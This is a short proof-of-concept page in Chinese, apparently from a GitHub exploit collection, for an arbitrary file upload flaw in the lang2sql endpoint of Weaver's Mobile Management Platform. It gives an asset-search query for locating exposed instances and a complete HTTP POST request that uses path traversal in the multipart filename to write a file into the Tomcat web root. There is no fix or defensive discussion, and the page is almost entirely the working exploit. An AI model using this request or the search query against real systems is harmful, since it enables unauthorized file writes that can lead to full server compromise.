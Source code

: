 ## 泛微移动管理平台lang2sql接口任意文件上传

## 鹰图
```
web.title="移动管理平台"
```


## poc
```
POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Host: 目标地址
Content-Length: 202
Expect: 100-continue
Connection: close

------WebKitFormBoundarymVk33liI64J7GQaK
Content-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/9SIpL.txt"

b9Q2Itmn1
------WebKitFormBoundarymVk33liI64J7GQaK--
```
![0302764cce0476f1d9d11374c18c024b](https://github.com/wy876/POC/assets/139549762/84018feb-2591-45a6-bf0f-663f32e7d98f)

![5cd4ffd5a4d86ad03d7208e3cc646f86](https://github.com/wy876/POC/assets/139549762/62003fb2-0dea-4dde-87ad-4c4165cc55d8)
